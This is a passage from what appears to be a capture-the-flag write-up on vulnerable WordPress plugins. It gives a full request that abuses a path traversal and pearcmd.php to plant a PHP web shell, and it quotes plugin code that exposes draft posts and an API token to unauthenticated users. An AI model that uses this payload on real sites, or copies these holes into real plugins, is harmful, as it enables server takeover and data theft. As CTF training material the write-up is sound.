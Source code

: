 This is due `register_argc_argv` is always enabled and php pear is always installed in wordpress docker image.

I sent a request to `/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php?+config-create+/&tab=../../../../../../../../../../../usr/local/lib/php/pearcmd.php&/<?system($_GET[0])?>+/tmp/beluganothere.php` to upload a web shell within `tmp` directory.
![](image-4.png)

Then use the same vuln to access the uploaded file. We got the flag!
![](image-5.png)

**Flag: CTF{TABBING_THE_TAB_0z933}**

---

### Patchstack Scheduler Pro

> Patchstack needed to update their Blog content and asked a freelancer to make a plugin for scheduling their newest advisories. It has not been tested yet can you check it for us?

In this challenge, we were given a custom plugins called `patchstack scheduler pro`. If take a look in `Makefile`, we can see that it tries to insert 50 **draft** random posts with one of them containing `ps_api_token`. Let's note this for later.
![](image-6.png)

In the plugin index files, we can see that it registered several ajax actions. All of them have `nopriv` prefix, so it can be accessed from unauthenticated users.

```php
add_action('admin_menu', array($this, 'add_admin_menu'));
add_action('admin_enqueue_scripts', array($this, 'enqueue_admin_assets'));
add_action('wp_ajax_nopriv_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
add_action('wp_ajax_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
add_action('wp_ajax_nopriv_patchstack_scheduler_compare', array($this, 'handle_compare_request'));
add_action('wp_ajax_patchstack_scheduler_compare', array($this, 'handle_compare_request'));
add_action('wp_ajax_nopriv_patchstack_scheduler_settings', array($this, 'handle_settings_request'));
add_action('wp_ajax_patchstack_scheduler_settings', array($this, 'handle_settings_request'));
```


Let's analyze each of the ajax actions. I'll started with `handle_preview_request`

```php
public function handle_preview_request() {
    $post_id = isset($_GET['post_id']) ? intval($_GET['post_id']) : 0;
    $post = get_post($post_id);
    if (!$post) {
        wp_send_json_error('Post not found');
        return;
    }
    wp_send_json_success(array(
        'content' => $post->post_content,
        'title' => $post->post_title
    ));
}
```
